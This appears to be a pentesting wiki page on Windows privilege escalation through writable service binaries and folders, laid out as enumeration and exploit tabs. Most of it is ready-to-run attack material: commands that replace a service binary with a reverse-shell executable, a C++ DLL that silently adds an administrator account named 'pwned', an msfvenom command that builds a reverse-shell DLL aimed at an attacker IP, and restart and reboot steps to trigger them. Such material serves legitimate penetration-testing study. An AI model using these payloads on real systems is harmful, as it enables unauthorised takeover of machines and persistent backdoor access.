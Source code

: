```yaml
---
description: MITRE ATT&CK™ Hijack Execution Flow - Technique T1574
---
```


# Weak File/Folder Permissions

## Theory

It is very often in Windows environments to discover services that run with SYSTEM privileges. If you have write permissions over the folder or binary used by the service you can use it to escalate you privileges.

## Practice

### Service Binary Hijacking

{% tabs %}
{% tab title="Enumerate" %}
Given sufficient permissions over a service's binary, swapping it with our own binary enables us to gain code execution as the user configured to run this service.

To identify weaknesses in service binary permissions, we can take the following steps: retrieve a complete list of all service binary files, retrieve their permissions, identify specific ones for our controlled user.

We can perform such enumeration by using one of the following methods:

#### CMD

```powershell
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> %temp%\perm.txt
for /f eol^=^"^ delims^=^" %a in (%temp%\perm.txt) do cmd.exe /c icacls "%a" 2>nul | findstr "(M) (F) :\"
```

#### PowerShell

```powershell
Get-WmiObject Win32_Service | ForEach-Object { $serviceName = $_.Name; $path = $_.PathName; if ($path -ne $null -and $path -ne "") { $formattedPath = if ($path -match '.*\.exe') { if ($path -match '^"(.+?\.exe)') { $matches[1] } else { $path -replace '^(.*\.exe).*', '$1' } } else { $path }; $acl = try { Get-Acl -Path $formattedPath -ErrorAction Stop } catch { $null }; if ($acl -ne $null) { $relevantACE = $acl | Select-Object -ExpandProperty Access | Where-Object { $_.FileSystemRights -match 'Write|FullControl|Modify' }; if ($relevantACE) { [PSCustomObject]@{ ServiceName = $serviceName; FormattedPath = $formattedPath; ACL = $relevantACE | Select-Object -Property IdentityReference, FileSystemRights | Format-List | Out-String } } } } } | Sort-Object -Property FormattedPath -Unique | Format-List
```

#### PowerUp

```powershell
Get-ModifiableServiceFile
```

#### winPEAS

```powershell
winPEASx64.exe servicesinfo
```
{% endtab %}

{% tab title="Exploit" %}
If we find an editable service binary, we can simply replace it with a malicious one as follow:

```powershell
# Backup the binary
copy /y "c:\Program Files\File Permissions Service\filepermservice.exe" c:\Temp\filepermservice_backup.exe

# Hijack the binary 
copy /y c:\Temp\reverse.exe "c:\Program Files\File Permissions Service\filepermservice.exe"
```

Then, restart the service to trigger the execution

```powershell
#Using wmic
wmic service <Service_Name> call stopservice
wmic service <Service_Name> call startservice

#Using net
net stop <Service_Name> && net start <Service_Name>

#Using sc.exe
sc stop <Service_Name>
sc start <Service_Name>
```

{% hint style="success" %}
If we can't restart the service, we may check if it has `StartMode`set to `Auto`.&#x20;

If so, we can reboot the target to trigger the new binary (we will need the `SeShutdownPrivilege`for that).

```powershell
#Exemple of getting StartMode for MySVC
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'MySVC'}

#Reboot
shutdown /r /t 0 
```
{% endhint %}
{% endtab %}
{% endtabs %}

### Service DLL Hijacking

{% hint style="info" %}
DLL hijacking can be applied in many other cases, but this section focuses solely on services. For a more comprehensive approach, please refer to [this page](../dll-hijacking.md).
{% endhint %}

{% tabs %}
{% tab title="Enumerate" %}
In case you have write permissions over the service binary folder, we can write our DLL in and then hijack the DLL search order. Here is the default DLL search order in windows (in safe mode which is the default):&#x20;

1. The executable directory.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory.
5. The current directory.
6. The directories that are listed in the PATH environment variable.

We can enumerate permissive service folders by using the following PowerShell command

```powershell
Get-WmiObject Win32_Service | ForEach-Object { $serviceName = $_.Name; $path = $_.PathName; if ($path -ne $null -and $path -ne "") { $executableFolder = if ($path -match '.*\.exe') { if ($path -match '^"(.+\\)') { $matches[1] } else { $path -replace '^(.*\\).*', '$1' } } else { $path }; $acl = try { Get-Acl -Path $executableFolder -ErrorAction Stop } catch { $null }; if ($acl -ne $null) { $relevantACE = $acl | Select-Object -ExpandProperty Access | Where-Object { $_.FileSystemRights -match 'Write|FullControl|Modify' }; if ($relevantACE) { [PSCustomObject]@{ ServiceName = $serviceName; ExecutableFolder = $executableFolder; FolderACL = $relevantACE | Select-Object -Property IdentityReference, FileSystemRights | Format-List | Out-String } } } } } | Sort-Object -Property ExecutableFolder -Unique | Format-List
```

If we find a writable service folder, we first want to exfiltrate its service binary to a local windows machine. On this controlled computer, download [Process Monitor (procmon)](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon) to monitor for missing or hijackable DLLs.

In procomon, specify this three filters (edit the service name with yours):

<figure><img src="../../../.gitbook/assets/Capture d’écran_2023-11-09_01-29-36.png" alt=""><figcaption><p>Procmon Filters</p></figcaption></figure>

We may find some `CreateFile` actions with a `NAME NOT FOUND` result for a dll inside of the writable service binary folder. If so we can use this DLL name for DLL Hijacking !

<figure><img src="../../../.gitbook/assets/Capture d’écran_2023-11-09_01-32-10.png" alt=""><figcaption><p>DLL Not Found</p></figcaption></figure>
{% endtab %}

{% tab title="Exploit" %}
If we've found a DLL we can hijack, the hard part is over. Now let's compile a custom DLL using the following code (in this example, the vulnerable DLL is named "hijackme.dll").

{% code title="hijackme.cpp" %}
```cpp
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user pwned P@ssword! /add");
  	    i = system ("net localgroup administrators pwned /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
{% endcode %}

```bash
#Compile it
x86_64-w64-mingw32-gcc hijackme.cpp --shared -o hijackme.dll
```

Or use msfvenom to directly generate a malicious DLL.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKING_IP> LPORT=<ATTACKING_PORT> EXITFUNC=thread -f dll -o hijackme.dll
```

Now, after transferring the DLL to the target host, copy the DLL to the path we found.

```powershell
# Hijack the DLL 
copy /y c:\Temp\hijackme.exe "C:\Program Files\Folder Permissions Service\hijackme.dll"
```

Finaly, restart the service to trigger the execution

```powershell
#Using wmic
wmic service <Service_Name> call stopservice
wmic service <Service_Name> call startservice

#Using net
net stop <Service_Name> && net start <Service_Name>

#Using sc.exe
sc stop <Service_Name>
sc start <Service_Name>
```

{% hint style="success" %}
If we can't restart the service, we may check if it has `StartMode`set to `Auto`.&#x20;

If so, we can reboot the target to trigger the new binary (we will need the `SeShutdownPrivilege`for that).

```powershell
#Exemple of getting StartMode for MySVC
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'MySVC'}

#Reboot
shutdown /r /t 0 
```
{% endhint %}
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---incorrect-permissions-in-services" %}
